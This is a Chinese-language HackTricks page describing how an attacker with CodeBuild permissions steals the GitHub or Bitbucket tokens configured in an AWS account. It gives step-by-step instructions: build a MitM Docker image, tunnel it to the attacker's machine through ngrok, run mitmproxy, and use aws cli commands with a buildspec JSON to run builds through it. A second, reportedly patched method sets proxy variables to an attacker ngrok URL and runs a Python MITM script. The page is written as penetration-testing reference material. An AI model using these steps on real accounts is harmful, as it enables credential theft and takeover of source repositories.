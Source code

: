 # AWS Codebuild - 令牌泄露

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 PDF 版的 HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧。**

</details>

## 恢复 Github/Bitbucket 配置的令牌

### 通过 Docker 镜像

如果您发现例如 Github 的身份验证已在帐户中设置，您可以通过使 Codebuild 使用特定的 Docker 镜像来运行项目的构建来**窃取**该**访问**（**GH 令牌或 OAuth 令牌**）。

为此，您可以**创建一个新的 Codebuild 项目**或更改现有项目的**环境**以设置**Docker 镜像**。

您可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基本的 Docker 镜像，它将设置**环境变量 `https_proxy`**，**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许您拦截大部分在**`https_proxy`**和**`http_proxy`**中指定的主机的流量，并信任在**`SSL_CERT_FILE`**中指定的 SSL 证书。

1. **创建并上传您自己的 Docker MitM 镜像**
* 按照存储库的说明设置代理 IP 地址并设置 SSL 证书，然后**构建 Docker 镜像**。
* **不要设置 `http_proxy`**，以免拦截对元数据端点的请求。
* 您可以使用 `ngrok`，例如 `ngrok tcp 4444`，将代理设置为您的主机
* 构建 Docker 镜像后，**将其上传到公共存储库**（Dockerhub、ECR...）
2. **设置环境**
* 创建一个**新的 Codebuild 项目**或**修改**现有项目的环境。
* 设置项目使用**先前生成的 Docker 镜像**
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **在主机中设置 MitM 代理**
* 如**Github 存储库**中所示，您可以使用类似以下命令：`mitmproxy --listen-port 4444 --set block_global=false --allow-hosts "github.com"`
4. **运行构建并捕获凭据**
* 您可以在授权标头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 来完成，例如：
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER",
"image": "docker.io/carlospolop/docker-mitm:v6",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
},
"serviceRole": "arn-service-role"
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### 通过HTTP协议

{% hint style="success" %}
**这个漏洞在2023年2月20日的某个时间点被AWS修复了（我想是星期五）。所以攻击者不能再滥用它了 :)**
{% endhint %}

一个拥有**CodeBuild上的提升权限的攻击者可以泄露配置的Github/Bitbucket令牌**，或者如果权限是通过OAuth配置的，可以泄露**用于访问代码的临时OAuth令牌**。

* 攻击者可以将环境变量**http\_proxy**和**https\_proxy**添加到CodeBuild项目中，指向他的机器（例如`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* 然后，将github仓库的URL更改为使用HTTP而不是HTTPS，例如：**http://**github.com/carlospolop-forks/TestActions
* 然后，在代理变量（http\_proxy和https\_proxy）指向的端口上运行[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击**构建项目**，**凭证**将以明文（base64）发送到mitm端口：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够从他的机器上使用令牌，列出所有权限，并且比直接使用CodeBuild服务更容易地滥用。
{% endhint %}

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的**公司广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
